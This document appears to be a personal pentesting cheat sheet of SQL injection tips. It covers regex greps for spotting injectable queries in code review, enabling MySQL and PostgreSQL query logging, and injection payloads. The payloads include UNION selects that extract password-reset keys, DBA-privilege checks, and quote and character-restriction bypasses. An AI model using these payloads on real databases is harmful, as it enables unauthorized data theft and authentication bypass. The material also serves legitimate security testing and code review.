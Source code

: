 # SQL Injection tips


## Code Review Regex
```sql
^.*?query.*?select.*?

egrep "^.*?query.*?select.*?" $i
for i in $(cat doGet.txt); do echo $i && egrep "^.*?query.*?select.*?" $i; done

egrep "^.*?\"select.*?" $i
for i in $(cat doGet.txt); do echo $i && egrep "^.*?\"select.*?" $i; done

egrep  "^.*?request\.getParameter\(\"" $i
for i in $(cat doGet.txt); do if egrep -q "^.*?\"select.*?" $i; then if egrep -q "^.*?request\.getParameter\(\"" $i; then echo $i;fi  ;fi; done

# Improved regex
^.*?['"]SELECT.*?['"]\ ?[\+\.]
^.*?['"]UPDATE.*?SET.*?['"]\ ?[\+\.]
^.*?['"]INSERT INTO.*?['"]\ ?[\+\.]

# Targeted/Group Matching
perl -lne 'print $1 if /<REGEX>/' < * 
```

## MySQL
* Turn on debug
    * Edit mysql config file
        ```
        sudo nano /etc/mysql/my.cnf
        ```
    * Uncomment or modify these settings into these values
        ```sql
        general_log_file = /var/log/mysql/mysql.log
        general_log = 1
        ```
    * Restart services
        ```
        sudo systemctl restart mysql
        ```
    * Tail the logs
        ```
        sudo tail –f /var/log/mysql/mysql.log
        ```
* Alternatives / Bypass
    ```sql
    space is /**/
    Comment is #
    ```
* Check current DB Version
    ```sql
    select version();
    @@version;
    ```
* Show current User
    ```sql
    select user();
    # or
    select current_user();
    ```
* Boolean Example
    ```sql
    SELECT count(*) FROM <table> where <column_name> LIKE <QUERY>
    ```
* Show if current user is a database admin (DBA)
    ```sql
    SELECT false OR (select count(user) from mysql.user where (INSTR((select user()), user)  and  super_priv = 'Y' and host = 'localhost')) = 1; # Boolean
    SELECT user from mysql.user where (user = substring_index((select user()),'@',1) and super_priv = 'Y' and host = 'localhost'); # Better
    SELECT false OR (select count(user) from mysql.user where (user = substring_index((select user()),'@',1) and super_priv = 'Y' and host = 'localhost'))=1; # Boolean
    ```
* Payloads
    * Union
        ```
        " UNION ALL SELECT 1,2,3,4,5#   #<-- Depending on number of rows, start from 1 and increase
        " test_value" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#   
        ```
* Limitations
    * Python
        * PyMysql only allows 1 query execution unless parameter `multi=True` is set

* Collations
    * Determine Collation
        * From MySQL cli
            ```sql
            SELECT COLLATION_NAME FROM information_schema.columns WHERE TABLE_NAME = "powertableTop" AND COLUMN_NAME = "name";
            ```
        * Once collation is known, append to 'column name' after `SELECT`
            ```sql
            SELECT name COLLATE utf8mb4_general_ci FROM someTable; #ci means case-insensitive
            SELECT name COLLATE utf8mb4_general_ci, reset_password_key COLLATE utf8mb4_general_ci FROM someTable;
            "test_value" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM someTable;
            ```
* Associated Use cases:
    * Bypass authentication using Password reset by finding authentication token



---
## PostgreSQL
* Enable Debug
    * Edit `postgresql.conf` and change `log_statement` to `all`
        ```
        log_statement = 'all' # none, ddl, mod, all
        ```
* Helpful URLs:
    * OnSecurity[^1]
    * Pulse Security[^2]

* Tail a log file in Windows
    ```powershell
    Get-Content “C:\temp\pgsql_log\*” -Tail 10 -Wait | Select-String -Pattern "SOMEWEIRDTABLE" -Context 0,3
    ```
* Sleep
    ```sql
    pg_sleep(10);
    ```
* Bypass Character Restriction
    * `CHR` and String Concatenation. Only works in `SELECT`,`INSERT`, `DELETE` queries
        ```sql
        SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
        ```
    * Quote can be replaced by `$$`
        ```sql
        SELECT 'TESTVALUE';
        SELECT $$TESTVALUE$$;
        SELECT $TAG$TESTVALUE$TAG$;
        ```
* Check if the current user is a superuser (DBA)
    ```sql
    SELECT current_setting('is_superuser');
    ```
* Create table
    ```sql
    CREATE TEMP TABLE SOMETABLE(columnbus123 text);
    ```
* Insert Values
    ```sql
    INSERT INTO SOMETABLE(columnbus123) VALUES ($$test$$);
* Drop/delete table
    ```sql
    DROP table SOMETABLE;
    ```




















[^1]: [OnSecurity](https://www.onsecurity.io/blog/pentesting-postgresql-with-sql-injections/)
[^2]: [Pulse Security](https://pulsesecurity.co.nz/articles/postgres-sqli)
